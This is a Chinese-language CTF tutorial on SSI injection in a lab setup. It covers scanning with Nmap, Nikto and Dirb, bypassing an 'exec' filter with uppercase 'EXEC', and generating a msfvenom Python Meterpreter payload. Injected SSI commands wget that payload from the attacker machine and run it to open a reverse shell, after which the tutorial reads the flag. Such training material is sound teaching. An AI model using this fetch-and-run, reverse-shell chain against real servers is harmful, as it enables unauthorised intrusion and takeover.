








# CTF夺旗赛教程：P15：SSI注入攻击实战

## 概述
在本节课中，我们将学习一种名为SSI注入的攻击技术。通过利用这种漏洞，攻击者可以从外部渗透进入目标主机，并最终获取系统权限。我们将从SSI技术的基础概念讲起，逐步搭建实验环境，进行信息探测，并最终完成一次完整的SSI注入攻击，获取目标服务器的控制权。

## SSI注入简介
上一节我们概述了本节课的目标，本节中我们来详细了解一下SSI注入。

SSI代表Server Side Includes，即服务端包含。这项技术的出现，是为了让HTML这类静态页面能够实现动态效果。在动态网页技术（如PHP、ASP）普及之前，SSI和CGI被广泛用于为静态HTML页面添加动态交互功能。

其核心原理是：**通过SSI指令在HTML页面中嵌入系统命令或CGI脚本，服务器执行这些指令后，将结果返回到页面中**。这使得静态页面仿佛具备了动态交互的能力。

如果在一个网站的目录中发现了`.shtm`或`.shtml`后缀的文件，通常表明该网站使用了SSI技术。如果网站对用户通过SSI提交的输入没有进行严格或充分的过滤，就会导致SSI注入漏洞。攻击者可以借此让服务器执行恶意指令。

## 实验环境搭建
了解了SSI的基本概念后，我们需要一个环境来实践。本节我们将搭建攻击所需的实验环境。

*   **攻击机**：Kali Linux
    *   IP地址：`192.168.1.103`
*   **靶机**：一台存在SSI漏洞的Linux服务器
    *   IP地址：`192.168.1.106`

我们的最终目标是获取靶机上的flag值。为此，我们首先需要获得访问靶机的权限。

## 信息探测
在发起攻击前，我们必须先了解目标。本节我们将对靶机进行全面的信息收集。

首先，我们需要探测靶机开放了哪些服务及其版本信息。我们使用Nmap工具进行扫描。



以下是扫描靶机服务信息的命令：
```bash
nmap -sV 192.168.1.106
```
这条命令会向靶机发送探测数据包，并根据返回的信息分析并列出开放的服务及其版本。



除了服务扫描，我们还可以使用Nmap进行更全面的探测，包括操作系统识别。



以下是进行综合扫描的命令：
```bash
nmap -A -v -T4 192.168.1.106
```
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由追踪。
*   `-v`：显示详细输出。
*   `-T4`：指定扫描速度，T4为较快速度。

扫描结果显示，靶机只开放了80端口，运行着HTTP服务。因此，我们的攻击面将集中在Web应用上。

接下来，我们使用`nikto`工具对HTTP服务进行更深层次的漏洞扫描。

以下是使用nikto扫描的命令：
```bash
nikto -h http://192.168.1.106
```
nikto会检查Web服务器是否存在多种已知的安全问题，例如错误配置、默认文件、过时的软件版本等。

此外，我们还可以使用`dirb`工具来探测网站隐藏的目录和文件。



以下是使用dirb进行目录爆破的命令：
```bash
dirb http://192.168.1.106
```
这个工具会尝试通过字典猜测靶机Web服务器上可能存在的目录和文件路径。

## 信息分析与漏洞定位
在收集了大量信息后，我们需要从中找出潜在的突破口。本节我们来分析扫描结果。



分析`nikto`和`dirb`的扫描报告，我们发现了几个关键点：
1.  服务器是Ubuntu系统，使用Apache 2.4.18。
2.  发现了一个名为`/ssi/`的目录，这强烈暗示网站使用了SSI技术。
3.  发现了`index.shtml`文件，这是使用SSI的典型特征。
4.  在`/ssi/`目录的页面中，页面显示了服务器上的一些文件列表和客户端的IP地址，这表明确实存在命令执行或注入点。
5.  通过访问`robots.txt`文件，我们下载了网站的两个备份文件（`index.bak`, `old-config.bak`），从中获得了网站根目录等路径信息，但未发现直接利用点。



最重要的发现是`/ssi/`目录下的页面。访问该页面时，它似乎执行了类似`ls`的命令并显示了结果。这为我们提供了明确的攻击方向。

## SSI注入攻击实战
经过分析，我们确认了攻击入口。本节我们将正式实施SSI注入攻击。

我们在`/ssi/`页面中发现了一个输入表单。根据页面源码中的注释提示，攻击格式可能为：
```
<!--#exec cmd="要执行的命令" -->
```
但是，直接提交`<!--#exec cmd="ls" -->`后发现，`exec`关键字被过滤了。

**绕过过滤**：一个常见的绕过技巧是使用大小写混淆。我们将`exec`改为大写的`EXEC`进行尝试。
```
<!--#EXEC cmd="ls" -->
```
提交后，成功执行了`ls`命令，并显示了`/etc/passwd`文件的内容，证明注入成功。

## 获取反向Shell
我们已经可以执行命令，但为了更方便地控制靶机，我们需要获取一个反向Shell。本节我们将利用漏洞上传并执行一个Shell脚本。

**第一步：生成反向Shell负载**
我们在攻击机（Kali）上使用`msfvenom`生成一个Python反向Shell。
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.103 LPORT=4444 -f raw > /root/Desktop/shell.py
```
*   `-p python/meterpreter/reverse_tcp`：指定生成Python的Meterpreter反向TCP负载。
*   `LHOST=192.168.1.103`：设置监听主机的IP（攻击机IP）。
*   `LPORT=4444`：设置监听端口。
*   `-f raw`：输出为原始格式。
*   `> /root/Desktop/shell.py`：将生成的负载保存到桌面。

**第二步：启动Web服务器并放置Shell**
我们需要让靶机能够下载这个Shell脚本。将生成的`shell.py`移动到Apache的Web根目录，并启动Apache服务。
```bash
cp /root/Desktop/shell.py /var/www/html/
systemctl start apache2
```

**第三步：在攻击机启动监听**
使用Metasploit框架监听来自靶机的反向连接。
```bash
msfconsole
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST 192.168.1.103
set LPORT 4444
exploit
```



**第四步：通过SSI注入下载并执行Shell**
在靶机的SSI注入点，提交以下命令，让靶机下载我们的Shell脚本并赋予执行权限，最后运行它。
```
<!--#EXEC cmd="wget http://192.168.1.103/shell.py -O /tmp/shell.py" -->
<!--#EXEC cmd="chmod +x /tmp/shell.py" -->
<!--#EXEC cmd="python /tmp/shell.py" -->
```
执行后，在Metasploit监听端会看到成功接收到来自靶机的反向Shell连接。

## 权限提升与Flag获取
成功获取Shell后，我们通常在一个功能受限的交互环境里。本节我们进行后期操作，优化Shell并寻找flag。

首先，我们查看系统信息并升级Shell到一个完全交互式的TTY。
```bash
sysinfo # 查看靶机系统信息
python -c 'import pty; pty.spawn("/bin/bash")' # 升级到完全交互式bash
```
升级后，我们获得了更友好的命令行提示符。

在CTF比赛中，最终目标是找到flag文件。通常flag存放在根目录或特定用户目录下。
```bash
cd /root
ls
cat flag.txt # 或类似的文件名
```
通过以上命令，即可读取flag内容，完成挑战。

## 总结
本节课中，我们一起学习了SSI注入攻击的完整流程。

我们从SSI技术的原理讲起，搭建了Kali攻击机和漏洞靶机环境。通过使用Nmap、Nikto、Dirb等工具进行信息收集，我们分析了扫描结果，成功定位到存在SSI注入漏洞的页面。在攻击阶段，我们利用大小写绕过了简单的关键字过滤，实现了命令执行。最后，我们通过生成反向Shell负载、搭建下载服务器、利用漏洞下载执行，成功获取了靶机的反向连接，并最终找到了目标flag。



在实际的CTF比赛或安全评估中，防御措施会更加复杂，可能需要综合运用多种绕过技巧（如编码、拼接、使用其他SSI指令等）。本次实战为你奠定了SSI注入攻击的基础理解和操作能力。